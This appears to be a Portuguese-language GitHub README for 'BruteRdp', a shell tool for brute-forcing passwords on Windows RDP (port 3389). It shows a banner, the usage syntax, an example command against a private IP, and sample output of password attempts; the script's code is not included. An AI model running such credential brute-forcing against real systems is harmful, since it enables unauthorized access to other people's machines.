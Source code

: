 # BruteRdp
Faça bruteforce no serviço RDP que geralmente roda na porta 3389

./BruteRdp.sh 

		 ____                _         ____      _
		| __ )  _ __  _   _ | |_  ___ |  _ \  __| | _ _
		|  _ \ |  __|| | | || __|/ _ \| |_) |/ _  ||  _ \
		| |_) || |   | |_| || |_|  __/|  _ <| (_| || |_) |
		|____/ |_|    \__,_| \__|\___||_| \_\\__,_|| .__/
		                                           |_|
            		Version 1.1    Author @BlackCyber
			https://github.com/BlackCyber21/

     Modo de uso: ./BruteRdp.sh username passlist.txt domainname iptarget
  Observe o local de sua wordlist, verifique se a porta 3389 do alvo windows ta open



./BruteRdp.sh Administrator /home/test/wordlist.txt domainname 192.168.0.10

		 ____                _         ____      _
		| __ )  _ __  _   _ | |_  ___ |  _ \  __| | _ _
		|  _ \ |  __|| | | || __|/ _ \| |_) |/ _  ||  _ \
		| |_) || |   | |_| || |_|  __/|  _ <| (_| || |_) |
		|____/ |_|    \__,_| \__|\___||_| \_\\__,_|| .__/
		                                           |_|
            		Version 1.1    Author @BlackCyber
			https://github.com/BlackCyber21/


	         Testando com: root : 12345670
	         Testando com: root : 12345671
	         Testando com: root : 12345672
	         Testando com: root : 12345673
           
           or
           
unable to connect to 192.168.0.10:3389
Error: protocol security negotiation or connection failure


